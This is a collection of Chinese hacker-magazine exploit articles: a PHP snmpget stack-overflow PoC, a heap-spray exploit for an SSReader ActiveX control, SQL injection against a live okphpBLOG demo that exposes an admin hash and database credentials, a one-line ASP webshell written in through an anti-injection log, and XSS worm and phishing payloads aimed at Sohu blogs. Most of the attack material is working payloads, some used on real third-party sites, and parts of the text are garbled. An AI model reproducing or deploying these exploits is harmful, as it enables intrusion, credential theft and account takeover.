| snmpset | 设置一个 SNMP 对象 |
| snmpwalk | 以数组返回所有 SNMP 对象 |
| snmpwalkoid | 返回关于网络实体信息树 |

图3

```php
snmpget
(PHP 3, PHP 4, PHP 5)

string snmpget(string hostname, string community, string object_id [, int timeout [, int retries]])

<?php
$contact = snmpget("127.0.0.1", "public", "system.SysContact.0");
?>
```

图4

有了上面的知识，我们就可以来看这个漏洞的 POC 代码了，其实它就是一个能够触发并利用这个漏洞的 PHP 页面。

```php
<?php
// Tested on xp Pro sp2 full patched
if (!extension_loaded('snmp')) die('snmp extension required');
$buffer = str_repeat('A',252).str_repeat("\x90",4);
$EIP = "\xE0\xB0\xD5\xD7"; // call esp
$nop = str_repeat("\x90",8);
$shellcode = "..."; // 省略部分 shellcode
$egg = $buffer.$EIP.$nop.$shellcode.$nop;
snmpget("127.0.0.1","public",$egg);
?>
```

```php
... 把 shellcode 写入 Web 服务端的 4444 端口 ...
snmpget(1, 1, $egg)
?>
```

从我写的注释，大家应该可以很容易看懂上面代码的意图。把其中给 snmpget 函数传入的第 3 个畸形参数用图形方式展示出来，如图5所示。


图5

理解了这段 POC 代码后，我们就来调试跟踪一下 php_snmp.dll 这个动态链接库是如何处理传给 snmpget 函数的参数的。

在调试跟踪之前，我们还需要做两件事：一是配置 php.ini（启用 extension=php_snmp.dll 并重启 APMServ）；二是把 exp_bind4444.php 改名为 index.php 放到根目录，通过 http://127.0.0.1:8080/ 访问。

启动 OllyDBG，选择“File->Attach”，选择第一个 httpd 进程并 Attach。约 30 秒后进入调试状态。


图6

但是如果用 IE 访问上面那个触发漏洞的 PHP 页面，我们将只能看到最后的结果，就是打开了 Web 服务端的 4444 端口。然而我们的目的是要调试跟踪代码的流程，找到溢出的根本原因。因此我们的问题是——如何制造断点？如果你经常看我写的文章的话，其实我在之前的文章中已经阐述过一个解决这个问题的土办法。虽然土，但是保证绝对行之有效。下面就跟着我一起来实践一下这个土办法吧。

- 第一步，修改上面的 PHP 页面，把其中的“$EIP="\xE0\xB0\xD5\x77";”改成“$EIP="\xff\xff\xff\xff";”。“\xff\xff\xff\xff”是一个无效的内存地址，当程序到“\xff\xff\xff\xff”读取指令时，由于内存访问异常，会自动断下来，这样就达到我们下断点的目的了。这叫做“不下自停”，就是说我们没有下任何断点，程序在调试器中自动停了下来。
- 第二步，仔细观察此刻的栈。栈是程序代码执行流程的重要线索，从栈中可以观察出很多蛛丝马迹。为此我把此刻的栈记录了下来，代码如下。

```text
0998DABC ...
0998DAB8 01780FEC ASCII "%s"
0998DBF4 017672B7 php_snmp.017672B7
...
0998D928 41414141
0998D92C 41414141
```

```text
0998DA1C 41414141
0998DA20 41414141
0998DA24 00909090
0998DA28 FFFFFFFF
0998DA2C 00000000
```

经过对上面栈内容的分析，我们可以知道在此刻之前程序执行过两个函数，它们的地址分别在 php_snmp.01753769 和 php_snmp.017672B7 附近。于是，在 OllyDBG 中按 Ctrl+G 到这两个地址附近，在 php_snmp.017672B7 附近发现了一段非常可疑的代码，很可能就是导致栈溢出的根本原因。

```text
0176729E 68 EC0F7801 PUSH php_snmp.01780FEC
017672A3 52 PUSH EDX
017672A4 FF15 70F07701 CALL DWORD PTR DS:[<&MSVCRT.sprintf>]
017672AA 83C4 0C ADD ESP,0C
017672AD 8D4424 2C LEA EAX,[ESP+2C]
017672B1 50 PUSH EAX
017672B2 E8 99C4FEFF CALL php_snmp.01753750
```

- 第三步，关闭 OllyDBG，然后重新启动 OllyDBG，选择“File->Attach”，再选择第一个 httpd 进程，点击“Attach”按钮。等待创建线程后，选择 OllyDBG 的“View->Executable modules”或按 Alt+E，打开模块列表，找到 php_snmp 模块。双击这个模块，进入代码段，按 Ctrl+G 到上面的可疑地址 017672A4 处，然后在这里下断点。


图7

- 第四步，把上面更改的 PHP 页面（index.php）再改回原样，打开 IE，访问这个页面 http://127.0.0.1:8080/，此时会发现 OllyDBG 停在了刚才下的断点。处，再看一下栈就明白了，原来是 `sprintf` 函数使用不当惹的祸，如图8所示。


图8

看到这里，大家自然要问，为什么说是 `sprintf` 函数使用不当呢？这个问题很关键！这个问题解答完后，大家自然就会明白本漏洞发生的根本原因所在了。

首先来看看 `sprintf` 函数的定义和程序例子。

```c
函数名: sprintf
功能: 送格式化输出到字符串中
用法: int sprintf(char *string, char *format [,argument,...]);

#include <stdio.h>
#include <math.h>
int main(void)
{
    char buffer[80];
    sprintf(buffer, "An approximation of Pi is %f\n", M_PI);
    puts(buffer);
    return 0;
}
```

事实上，`sprintf` 的作用是将一个格式化的字符串输出到一个目的字符串中，而 `printf` 是将一个格式化的字符串输出到屏幕。`sprintf` 的第一个参数就是目的字符串，如果不指定这个参数，执行过程中将出现程序非法操作提示。因为 C 语言在进行字符串操作时不检查字符串空间是否足够，所以可能会出现数组越界而导致程序崩溃的问题。调用 `sprintf` 前应分配足够缓冲区，否则可能导致栈溢出。

##### 漏洞利用

这个漏洞虽然被定为 Local 级别，不能直接用于远程攻击，但是如果目标 PHP 系统中加载了 SNMP 扩展库，并且网站存在可上传入口，上传构造的 `exp_bind4444.php` 后再远程访问该页面，会导致目标系统栈溢出并执行 ShellCode，打开目标系统 4444 端口。

我在本机已经把这个 `exp_bind4444.php` 实验通过了，成功打开目标主机 4444 端口，并可通过 `telnet` 连接该端口，如图9和图10所示。


图9


图10

##### 总结

综上所述，经过详细分析，导致漏洞的原因已经查明：在调用 `sprintf` 函数之前没有检查转换格式字符串和缓冲区大小，缓冲区不足会直接导致栈溢出。通过这个漏洞可见，很多漏洞源于基础函数使用不当。编程时应深入理解所用函数，避免因细小疏忽造成严重安全问题。

- 适合读者：入侵爱好者、溢出爱好者
- 前置知识：缓冲区溢出基本原理

#### 超星阅读器 pdg2.dll ActiveX 栈溢出 0Day

文/图 张东辉 [shineast] 袁野


超星浏览器（SSReader）是超星公司拥有自主知识产权的图书浏览器，是专门针对数字图书的阅读、下载、打印、版权保护和下载计费而研究开发的。经过多年不断改进，SSReader 现已发展到 4.0 版本，是国内外用户数量最多的专用图书浏览器之一。

不幸的是，超星的漏洞层出不穷，黑防经常能爆出超星的 0Day，但是超星的软件升级周期似乎太慢了，迟迟不见安全升级，这给使用超星的广大用户带来相当大的安全隐患。本文将揭示存在于 pdg2.dll ActiveX 中的多处安全漏洞，希望能够引起超星公司的重视！

搜集到这些信息后，我们就对这个控件有一个大体的认识了。我们能够看出这个控件的 CLSID 是 `{7F5E27CE-4A5C-11D3-9232-0000B48A05B2}`，文件路径在 `C:\WINDOWS\system32\pdg2.dll`，并且可以看出这个 DLL 确实是最新 4.0 版的。

下面我们要来看看这个控件中到底有哪些函数，用 VS2005 的对象浏览器功能将之打开，可以很清楚地看到这个控件中的变量、函数及函数参数的信息，如图2所示。从中我们可以看出 pdg2.dll 这个控件中有很多函数，其中经过我测试发现存在漏洞的有多个，例如：

##### 漏洞分析

我们首先从超星网站（http://www.ssreader.com/download_index.asp）下载最新版的超星阅读器，版本是 4.0，更新日期是 2007 年 5 月 11 日，文件大小为 6.8MB。下载后安装之，用 COM Explorer 可以看到超星在你的系统上注册的几个 ActiveX 控件。其中有一个就是 pdg2.dll 这个控件，如图1所示。


```cpp
public virtual void DownLoad(string URL, string filename)
public virtual void GetRemoteFileTime(string filename)
public virtual void GotoBookPage(string URL, uint PageNum, int isDir)
public virtual int Register(string RegCode, string UserName)
```

下面我们就以 `Register(string RegCode, string UserName)` 为例来分析漏洞的成因，其他函数，感兴趣的读者可以自行测试，或许你会有新发现的！另外，在这个控件中的 `LoadPage()` 函数曾经也是存在漏洞的，在之前的《黑客防线》杂志上爱无言老兄就精彩揭示过它的问题，不过我这次测试时发现已经补了。

现在我们就来构造一段能让 `Register(string RegCode, string UserName)` 函数溢出的代码，这段代码我们暂时不做什么“坏事”，只是测试一下这个函数。

```html
<html>
<object classid='clsid:7F5E27CE-4A5C-11D3-9232-0000B48A05B2' id='target'></object>
<body>
<SCRIPT language='javascript'>
var buffer='';
while (buffer.length < 2048) buffer+='\x05';
var ok='1111';
target.Register(ok,buffer)
</script>
</body>
</html>
```

上面这段程序原理很简单，就是给 Register 函数输入了两个字符串参数，一个是正常的，另一个是超长的，内容是 `05050505......`。

把这段程序写入一个记事本，然后把文件名改成 `test.html`，同时用 OllyDBG attach IE 浏览器，然后打开上面这个 `test.html`，`Shift+F7` 过一个异常后，程序会由于图3所示的异常而停止下来。


图3

如此一来就好办了，既然可以栈溢出，那么我们利用这个漏洞的方式就有两种选择：一是常规的 `buffer=padding + EIP(JMP ESP) + 90 + shellcode`；二是使用 Heap Spray 方式，直接把 `90(nop指令)` 和 ShellCode 事先写到连续的几个堆块中，然后把溢出后覆盖的 EIP 地址搞成堆块的地址（就像上面的 `0x05050505`），于是 ShellCode 就可以执行到了。

但是我们不能高兴得太早，我们的真正目的是要弄清楚超星的代码中到底是什么原因导致的栈溢出，弄明白这个才是王道，而不是急着去利用。下面我们就把这个漏洞分析到底！

虽然我们现在知道结果是可以溢出的，但是如何能够把程序定位到溢出的那一段代码呢？这就要求调试的过程中，能设置一个断点，让程序停下来。然而我们本身就不知道程序在哪里出现问题，又如何下断点呢！我有一个办法，就是在刚才 OllyDBG 中的栈空间寻找大片大片的 `05050505`，这些 `05050505` 也就是 buffer 的内容。然后在这片 `05050505` 的上面找一个 `pdg2.dll` 中的返回地址，这个地址非常关键，从程序的一般流程原理可知，溢出发生之前或之后一定执行过这个地址之前的一条指令，这个指令一般是跳转指令，因为和返回指令对应的，例如 `CALL` 指令或 `JMP` 指令等。那么我们分析漏洞发生的过程就可以从这条跳转指令开始。

本函数的溢出过程经过我上面方法的分析，反复调试跟踪几次，发现溢出实际上是发生在 `pdg2.dll` 中的偏移地址为 `00020228` 的这条指令，即 `call ds:WideCharToMultiByte`。如图4所示。


图4

`WideCharToMultiByte` 函数在 `kernel32` 中是一个宽字符到多字节字符的转换函数。函数原型如下：

```c
int WideCharToMultiByte(
  UINT CodePage,
  DWORD dwFlags,
  LPCWSTR lpWideCharStr,
  int cchWideChar,
  LPSTR lpMultiByteStr,
  int cbMultiByte,
  LPCSTR lpDefaultChar,
  LPBOOL lpUsedDefaultChar
);
```

```cpp
// 输出缓冲区大小（如果为0，lpMultiByteStr将被忽略，函数将返回所需缓冲区大小而不使用lpMultiByteStr）
LPCSTR lpDefaultChar;
// 指向字符串的指针，在指定编码里找不到相应字符时使用此字符作为默认字符代替
LPBOOL lpUsedDefaultChar;
// 开关变量的指针，用以表明是否使用过默认字符
```

```html
var buffer = "";
while (buffer.length < 1024) buffer += "\x05";
var ok = "1111";
target.Register(ok, buffer);
</script>
</body>
</html>
```

看了这个函数的原型和参数的含义后，大家应该对这个函数有个大体的认识了。事实上，调用此函数会很容易导致内存泄漏，因为 `lpWideCharStr` 指向的输入缓冲区大小是宽字符数，而 `lpMultiByteStr` 指向的输出缓冲区大小是字节数。为了避免内存泄漏，应确保为输出缓冲区指定合适的大小。

超星的这个漏洞就是由于未检验输入的待转换字符串的长度是否超长，而直接进行转换，并输出到了栈中。虽然计算了长度，但是由于开辟的栈空间不足（只有 `100h=256` 字节），因此直接导致了栈溢出——这是超星 pdg2.dll 控件溢出的根本原因。

##### 漏洞利用

这个漏洞的利用不用说，当然是写网页喽！我最终写成的网页程序大体如下，经测试可正常使用。

```html
<html>
<object classid="clsid:7F5E27CE-4A5C-11D3-9232-0000B48A05B2" id=target></object>
<body>
<SCRIPT language="javascript">
var shellcode = unescape("...");
...
block = bigblock.substring(0, bigblock.length-slackspace);
while (block.length+slackspace<0x40000) block = block+block+fillblock;
memory = new Array();
for (x=0; x<100; x++) memory[x] = block + shellcode;
```

最终的效果如图5所示，可以看到程序弹出了一个计算器，这个就是我上面填写的 URL，即 http://127.0.0.1/calc.exe，这说明漏洞利用成功！


图5

##### 总结

如今是一个 ActiveX 漏洞泛滥的时代，我们不禁要问，到底是 ActiveX 技术的问题，还是我们编写程序习惯的问题？我想微软当初提出 ActiveX 技术并没有错，在因特网上，ActiveX 控件软件的特点是：一般软件需要用户单独下载然后执行安装，而 ActiveX 控件是当用户浏览到特定网页时，IE 浏览器即可自动下载并提示用户安装。ActiveX 控件安装的一个前提是必须经过用户的同意及确认。同时 Microsoft 也提供了一套工具，可以用它来增加 ActiveX 对象的安全性。然而 ActiveX 给如今的互联网带来了便利的同时，也带来了一定的安全威胁，因为越方便越好用，也就意味着越危险！

因此，我认为主要问题还是我们程序员的编程习惯。在编写程序之前，就应该熟悉一些危险的 API 函数，尽量不要用。如果实在要用的话，一定要使用得当！例如本漏洞涉及的 `WideCharToMultiByte` 函数，在使用这个函数之前，一定要对输入的待转换字符串长度进行检查，如果超出缓冲区的大小，就不应该再使用这个函数了！

另外，由于 pdg2.dll 中存在多个安全漏洞，建议超星公司对自己的产品尽快地检查一遍，赶紧修补自己的漏洞！

- 适合读者：入侵爱好者
- 前置知识：PHP语言

#### okphpBLOG 漏洞解析

文／图 TTfCT[E.S.T]


现在 ASP 漏洞一般人都会发现了，不久后 ASP.net 将会取代 ASP，最终将是 PHP、JSP 和 ASP.net 的天下。看了这么久的黑防，发现黑防刊登的关于 PHP 漏洞分析的文章比较少，所以下面就给大家送上这篇关于 okphpBLOG 漏洞分析的文章。

安装好 okphpBLOG，进入后台，发现其功能相当的简单，给人的感觉就是很难获得一个 WebShell，事实上也是如此。也许是本人水平有限，找了两天，仍没有发现有能得到 WebShell 的漏洞文件。尽管不能拿到 WebShell，给人的初步印象是很安全的，但其实并不是这样。下面我们就一起来分析它的漏洞。

##### 物理路径泄露漏洞

Blog 目录下的 `list_comments.php` 文件的 1～9 行代码如下：

```php
<?php
// Copyright(c) okphp.com
$arr = array('comments_type');
get_r($arr);
$offset = ($page-1)*$num_per_page;
if (!$bid && !$uid) {
  echo 'lost blog id or user id';
  exit();
}
```

注意 `get_r($arr);`。我们查找 `get_r()` 函数，发现它被定义在 `includes\functions.php` 中，如果我们直接访问 `blog/list_comments.php` 将出现函数未定义错误。下面是访问官方网站得到的结果：

```text
Fatal error: Call to undefined function: get_r() in .../blog/list_comments.php on line 4
```

呵呵，物理路径暴出来了。除了这个文件外，还有几个文件同样存在这样的问题，这里就不一一指出了。

## SQL注入漏洞

也许有人要问，得到物理路径后有什么用，玩过 PHP 注入的朋友都知道，PHP 注入可利用 `load_file` 函数配合 Union 查询将文件内容显示出来。而 `load_file` 是要求物理路径的，所以结合我们上面的物理路径泄露漏洞，如果有 `load_file` 权限，就可以把文件读取出来。存在 SQL 注入漏洞的是 `Blog.php` 文件中第 56～221 行，其部分代码如下：

```php
$uid = $_REQUEST['uid'];
$bid = $_REQUEST['bid'];
if (!$page) $page = 1;

switch($action){
  case 'register':
    header("Location:$accounts_url/register.php");
    exit();
  default:
    if ($bid > 0 || $uid > 0 || strlen($sn)>0) {
      $basic['title'] = $idc['home'];
      $smarty->assign('nav_on','home');
      include "blog/view_blog.php";
    } elseif ($aid > 0) {
      include "blog/view_detail.php";
      $smarty->assign('nav_on','blog');
    } else {
      include "blog/bloghome.php";
    }
    break;
}
```

`blog/view_blog.php` 文件中第 67～69 行也存在注入漏洞，其代码如下：

```php
$sql = "SELECT id,topic,content,timeline,num_reads,num_comments,approved,trackbacks FROM {$table['article']} WHERE b_id=$bid $where ORDER BY stick DESC,id DESC $limits";
// bid 的值由 blog.php $_REQUEST['bid'] 而来，未经处理
```

```php
// 未经任何处理就提交SQL查询
$res = sql_query($q, $conn);
// 查询语句
```

以上的代码告诉我们，在查询语句“SELECT id, topic, content, timeline, num_reads, num_comments, approved, trackbacks FROM {$table['article']} WHERE b_id=$bid $where ORDER BY stick DESC,id DESC $limits”中存在 SQL 注入（凡是有 BID 参数传递的地方就存在注入）。下面我们就来测试一下其官方网站。

打开网站 `http://demo.okphp.com/blog/blog.php`，在 `blog.php?bid=1` 后加入单引号 `'`，得到如图1所示的信息。


看来和我们所分析的结果完全一致，MySQL 出错并暴出了查询语句。我们再看看它是否支持 Union 查询，提交 `http://demo.okphp.com/blog/blog.php?bid=1 and mid(version(),1,1)>=4/*` 返回正常，说明支持 Union 查询。从上面的 Select 漏洞语句我们得知，共选择了 8 个字段，所以我们构造语句为：`http://demo.okphp.com/blog/blog.php?bid=1 and 1=2 union select 1,2,3,4,5,6,7,8/*`，提交后返回结果如图2所示。


下面我们就让图2中“3”的位置显示用户名，“4”的位置显示密码。构造语句：`http://demo.okphp.com/blog/blog.php?bid=1 and 1=2 union select 1,2,account,password,5,6,7,8 from okphp_accounts/*`，可以获得管理员用户：admin，MD5 密码：149815eb972b3c370dee3b89d645ae14，解密后密码为：2323，利用密码即可成功进入后台。

如图3和图4所示。


我在后台找了很久，可仍然没有办法得到 WebShell，又仔细地看了一下代码，还是不行，感觉有点可惜。

上面我们已经得到官方网站的物理路径是 `/home/pgstan/public_html/okphpdemo/blog/blog/`，这时我想到了用 `load_file` 查看 `blog/config.php` 的代码，于是提交：`http://demo.okphp.com/blog/blog.php?bid=1%20and%201=2%20union%20select%201,2,3,load_file('/home/pgstan/public_html/okphpdemo/blog/blog/config.php'),5,6,7,8/*`。看起来运气不好，`magic_quote_gpc` 为 on 状态，提交语句被转义。既然单引号被转义了，那我们就采用十六进制来处理路径。

```sql
/home/pgstan/public_html/okphpdemo/blog/blog/config.php
=> 0x2F686F6D652F70677374616E2F7075626C69635F68746D6C2F6F6B70687064656D6F2F626C6F672F626C6F672F636F6E6669672E706870

... union select 1,2,3,load_file(0x2F686F6D652F70677374616E2F7075626C69635F68746D6C2F6F6B70687064656D6F2F626C6F672F626C6F672F636F6E6669672E706870),5,6,7,8
```064656D6F2F626C6F672F626C6F672F636F6E66696/2E706870),5,6,7,8,/*，顺利提交后，结果却没有显示出来，可能是没有 `load_file` 权限，感觉 Linux 设置比 Windows 安全多了。

后来在百度搜索“Powered by okphp BLOG”，随便找了个站点，通过爆物理路径，发现是 Windows 2003 系统，于是使用 `load_file` 测试，成功爆出了用户名和密码，如图5所示。


```php
<?php // Copyright okphp.com
// main settings
$dbhost = "localhost";
// database server
$dbuser = "root";
// database username
$dbpswd = "840224";
// database password
$dbname = "19k";
// database name
```

接下来我就不再继续了，有了 MySQL 用户名和密码，如果服务器支持远程连接，搞个 WebShell 简直是信手拈来了。对于 okphpBLOG 系统存在的漏洞，目前我就发现了这些，如果你还有什么新的发现，欢迎大家登录黑防的官方论坛和我交流，我们共同进步。

图5

- 适合读者：入侵爱好者
- 前置知识：ASP

#### 快乐视听娱乐网漏洞分析与利用

文／图 Zero_cold


前段时间一个朋友由于建站的需要，让我帮忙负责筛选整站程序。本着安全第一的原则，我一有时间就读朋友发来的挑选好的程序，大大小小的程序读了 n 多个。在读这些程序的过程中，我发现不少程序在脚本安全方面做得并不是很好，其中有些问题很典型，也很严重。下面我就以在“快乐视听娱乐网”这套程序中发现的问题为例进行分析。

拿到这套程序，我首先在本机上搭建了测试环境，大致了解一下这个程序的功能。我先找到调用数据库的连接地址，通过提交参数来判断是否有明显的注入漏洞，结果很欣慰地发现这个程序用了防注入系统，只要提交非法的参数就会自动记录你的 IP 地址、提交的非法参数及动作等，如图1所示，然后就是屏蔽你的 IP 地址，无法访问网站了。


图1

之后我又在搜索框中输入“歌名%’ and 1=1 and ‘%’=’”和“歌名%’ and 1=2 and ‘%’=”，发现也没有问题。查看程序代码，发现过滤了单引号，看来这条路也走不通了；其余的地方，如后台登录等也都做了过滤，只好继续看代码。最后发现即使没有过滤的变量文件也都用了 `<!--#include file="sql.asp"-->` 语句来调用防注入系统，这样注入这条路就彻底地断送了。难道就这样被防注入系统给拒之门外了吗？想到有的防注入系统过滤得不好，我们还是可以利用 URL 编码绕过的，那么这里是否存在这样的问题呢？带着这样的疑问我看了下代码，发现也不存在这个问题。

于是又看了一遍这个防注入系统代码，给了我一个惊喜，那就是这个防注入系统记录我们提交的非法数据，写入 data 目录中的 `#sql.asp` 数据库中。大家注意这里的数据库 `#sql.asp`，其后缀是 ASP 格式的，而且没有做任何的防下载处理。聪明的读者可能已经想到了，我们为何不在提交非法的参数中加入一句话 ASP 木马呢？这样防注入系统就会记录我们提交的数据和一句话木马并写入数据库，我们不是可以通过 `#sql.asp` 来获得一个 WebShell 吗？

这里需要注意的是过滤关键字：`'|;|and|(|)|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare`。我们只有提交这些出现“|”分隔的被过滤字符串的时候，才会被防注入系统拦截并写入数据库中，如图2所示。

我啊，这里可不能写错哦，把数据库弄坏了、闭合不了的话，就很难再利用第2次了。能够成功利用上面漏洞的前提是防注入数据库的路径我们要知道，不过大家可以放心，很少管理员会刻意修改这个数据库路径的，即便是官方网站也没有修改。本地测试成功后，我在官方网站随便找个调用数据库连接写入：`";<SCRIPT RUNAT=SERVER LANGUAGE=VBSCRIPT>eval request(chr(35))</SCRIPT>"`，这样一句话木马就写入成功了。

然后用海洋连接上再上传个大马，这里我就不提供抓图了。我就是通过防注入程序漏洞先拿到了官方的 WebShell，从而为后面的测试提供了很大的方便。大家继续看就明白了。


这样一句话木马就写进去了。`<SCRIPT RUNAT=SERVER LANGUAGE=VBSCRIPT>eval request(chr(35))</SCRIPT>` 其实就是 `<%eval request(chr(35))%>`。我开始也是用 `<%eval request(chr(35))%>` 写的，但是发现数据库中变成了 `<eval request(chr(35))>`，那就不用“%”这个符号了，用 `<SCRIPT RUNAT=SERVER LANGUAGE=VBSCRIPT>eval request(chr(35))</SCRIPT>` 也是一样的效果。这里我用 Access 打开给大家看看提交后写入数据库的完整格式，如图3所示。


这里我遇见一个奇怪的问题，在本地测试提交的时候一直提示“Script 块缺少脚本关闭标记（%>）”。`#sql.asp` 数据库没有做任何处理，也没有用网上流传的那个一运行就自动在数据库中加入防下载处理的 ASP 文件，这个问题都闹了我半天。于是我请朋友“血汗”帮忙测试，也是这样的结果。然后我又重新测试了一下，竟然奇迹般地正常了，难道是我的人品问题？我想到的解释是，最后一个“%>”正好到了换行才导致这样的结果。这样的问题我遇见过好多次了，有知道的朋友记得要告诉我。

在读到 `adminsave.asp` 这个文件的时候，我又有了发现，这个漏洞对这个程序来说是致命的。源代码面前没有任何的秘密，这里我就先把代码贴出来给大家看看，如下所示。

```asp
<!--#include file="..../md5/md5.asp"-->
<!--#include file="conn.asp"-->
<%
username=LCase(Request("username"))
password=LCase(Request("newpin"))
re_newpin=LCase(Request("re_newpin"))
if password<>re_newpin then
  response.write "<script>alert('初始密码与确认密码不一致，不接受!');history.back();</script>"
  response.end
end if
password=MD5(password)
flag=Request("flag")
Set rs=Server.CreateObject("Adodb.RecordSet")
rs.Open "Select * from admin where name='"&username&"'",conn
if not rs.EOF then
  Response.Write "<font color=red><div align=center><br><br>该用户名已经存在</div></font>"
  Response.End
end if
rs.close
sql="select * from admin"
rs.open sql,conn,1,3
rs.addnew
rs("name")=username
rs("pwd")=password
rs("flag")=flag
rs.update
rs.Close
set rs=Nothing
conn.Close
set conn=Nothing
Response.Redirect "addadmin.asp"
%>
```

这个文件的功能是添加管理员账号。文件开始 include 调用了 `md5.asp` 和 `conn.asp`，其中 `md5.asp` 用于加密，`conn.asp` 用于连接数据库。程序从表单读取管理员账号和密码，在管理员数据中比较是否已有同名用户；若有则报错，若无则添加账号，随后跳转到 `addadmin.asp` 页面。

漏洞成因在于该文件没有任何权限访问判断，且相关 include 文件也未判断访问权限，导致任何人都可访问。其功能又是添加管理员，并且没有做站外提交防护，因此可以本地构造一个添加管理员用户的表单并提交给目标站点的 `adminsave.asp` 处理，从而添加管理员。

账号登录成功后才能得到 Session 值。文中说明即使未正常登录，也可通过构造提交绕过并添加管理员；在 `action` 中填写目标 `adminsave.asp` 地址，在表单中填入账号后提交，即可登录后台（如图5所示）。


图5

为了验证上述推论，作者使用 FrontPage 制作了可添加管理员账号的简易页面，将 `action="http://www.target.com/adminsave.asp"` 替换为待测站点 URL，填写账号密码即可提交（如图4所示）。


图4

文中还解释了警告框来源：`adminsave.asp` 文件末尾有 `Response.Redirect "addadmin.asp"`，而 `addadmin.asp` 会通过 `session("flag")` 判断是否有管理员权限，因此会出现相关提示。

该程序后台功能较强，包含站点信息配置、上传、数据库备份等。获得超级管理员账号后可进一步利用。作者测试了 3.0 增强版与商业版 4.0，认为漏洞同样存在。文末给出修补建议：在 `adminsave.asp` 中增加管理员 Session 判断（例如 include 错误处理/权限校验），或将相关代码整合进 `addadmin.asp`，以防止本地伪造提交任意添加超级管理员账号。

- 适合读者：入侵爱好者
- 前置知识：无

## Ajax Hacking 实战

### ——打造 XSS Trojan

文/图 梦之光芒（Monyer）


在黑防上给大家介绍 Ajax Hacking 技术有几期了，但一直没有实践过。这次给大家带来的就是一次实战的分析问题和解决问题的过程，而且是一个通用的打造“XSS Trojan”的全过程。由于这个过程也是藏在后台获取和发送用户信息的，和木马极为相似，所以文章的名字才叫 XSS Trojan，但和网页木马是两码事哦！本来是准备给大家介绍怎样做 XSS Worm 的，可是因为起稿时是以 Sohu 博客做实战的，在数据提交时出现了问题，所以这里仅会简单地介绍一下它的思路，而在此之上，我们会一起去做这个记录用户名和密码的“木马脚本”（某些网站甚至可以不用脚本哦！）。

在有“expression”的网页上快速移动鼠标，就会看到 CPU 占用率迅速飙升；并且“expression”是 IE 的专利，在 Firefox 下是不支持的，这使我们不能编写通用的 XSS 脚本。所以，我们要采取另一种插入跨站方式——编码。Sohu 博客对于脚本编码没有过滤的是16进制的 Java 式编码，利用方式如下：

```html
<DIV STYLE="background-image:\0075\0072\006C\0028\006A\0061\0076\0061\0073\0063\0072\0069\0070\0074\003A\0061\006C\0065\0072\0074\0028\0027\0058\0053\0053\0027\0029">
```

转码之前的代码为 `<DIV STYLE="background-image:url(javascript:alert('XSS'))">`。但是由于“javascript:”对于复杂的复合式脚本代码显得力不从心，所以我们不得不对代码进行一些改进。Samy（著名的 Myspace Worm）采取的方法是把执行代码写进标签另一属性里，并通过 Document 对象调用，使用 Eval 执行，比如下面的代码。

##### XSS 漏洞利用方式

在 Sohu 的博客里，我发现的并且可以利用的 XSS 点有“个人档案”区（因为用户自建版块的性质和其相同，所以归为一类）和“文章发布”区。它们都没有过滤 Style（层叠样式表）的注释信息，使得通过注释绕过的特殊脚本字符插入得以实现，利用方式如下：

```html

```

其中，“xss”这个属性可以随意拟定，改成“width”或“height”什么的都没有关系；“/*XSS*/”为注释的内容，内容也可以随意指定，但是在注释两边的字符除了左右位置可以改变，具体的值是不能改变的，因为它们连起来正是我曾经提到过的三个特殊的引起事件的标志之一——“expression”，由于 IE 会忽略掉样式表中的注释，从而使得我们的 XSS 脚本代码可以顺利执行。

不过，这样的代码在“个人档案”里可以执行，但在“文章发布”里却会被二次过滤（即在转向文章页面的客户端加载的时候会被过滤掉）；而且由于 expression 是不间断地加载的，所以会使电脑的 CPU 占用率很高。

```html
<div id='mycode' expr="alert('xss')" style="background:url(javascript:eval(document.all.mycode.expr))"></div>
```

但是由于 Sohu 博客禁止除 Style 以外的属性，所以这种方式对我们不适用，我们只能直接把代码写进 Eval 里。但此时利用代码仍没有完成——由于我们对 Style 属性用了双引号，对 URL 用了单引号，因此在 Eval 这个函数里就不能再有引号了，否则就会混淆。Samy 的方法是对单引号和双引号进行相应转换：

```javascript
var B=String.fromCharCode(34);var A=String.fromCharCode(39); //34为双引号十进制，39为单引号十进制
```

但我们这里事实上在 Eval 本身时就已经没有引号可用了，更别提语句里面的，所以这个方法无效。我所采取的是把整个 XSS 代码全部转换为十进制，然后用 `String.fromCharCode` 解码，用 Eval 执行。这样，内部代码可以随意用单引号，而不会影响代码本身，所以测试字符转换如下：

```html
<DIV STYLE="background-image:url(javascript:eval(String.fromCharCode(...)))">
```

再加上上面的16进制编码，完整的利用方式如下：

```html
<DIV STYLE="background-image:\0075\0072\006c\0028...\0029">
```

##### XSS Worm 的构造思路

其实我最初只打算学着 Samy 做个 Worm 来着，可是后来由于 Sohu 似乎把个人博客首页与个人资料设置页面放在不同服务器上，导致最终代码在本地可以顺利执行，到了远程就会提示没有权限……所以这里仅讲一下 XSS Worm 的制作思路，方便大家以后做 XSS Worm。

该 Worm 的功能为在 Sohu 用户访问者的博客友情链接里写入 “Monyer id, My Hero!”（仿 samy），在用户的个人档案里写入“window location.href=我的博客”（上文提到的 expression 利用方式）……并说明为何不直接把 worm 代码写进文章里。

```javascript
window.onload=function(){
  var a=new ActiveXObject('Microsoft.XMLHTTP');
  a.open('get','http://monyer.blog.sohu.com/...',true);
}
```

```javascript
a.send(null);
var b=new ActiveXObject(Microsoft.XMLHTTP);
b.open('post','http://monyer.blog.sohu.com/manage/profile.do?...',true);
b.send(null);
```

然后把代码先依照上面做十进制转换，放在 `url(javascript:eval(String.fromCharCode(...)))` 里，再进行16进制转码后放在 `<div style="BACKGROUND-image:">` 里，就可以了……

##### XSS Trojan 的制作实战

Sohu 过滤 XSS 代码这点毋庸置疑，但它没有过滤 Style 属性……所以大家只要利用特殊构造的 HTML 代码，就可以把原有页面覆盖掉，并随意构造新页面，比如下面的代码：

```html
<DIV style="Z-INDEX:10000; FILTER:Alpha(opacity=80); LEFT:0px; VISIBILITY:visible; WIDTH:100%; POSITION:absolute; TOP:0px; HEIGHT:1500px; BACKGROUND-COLOR:#fff" id="monyer" class="monyer" name="monyer"><em>123</em></DIV>
```

懂 HTML 和 CSS 的应该都知道，这代码会建立一个高度1500像素、宽度100%、透明度80%的层，并且由于 z 轴设为10000，所以该层会永远位于所有元素最上面……下面说说我的意图：先给登录用户 Alert“Session 获取失败，请重新登录！”，然后用一个层覆盖原页面，并打印伪造登录窗口。

图1

图2

表单元素，所以我们需要对表单做一下处理，结合上面的 div 后，代码如下：

```html
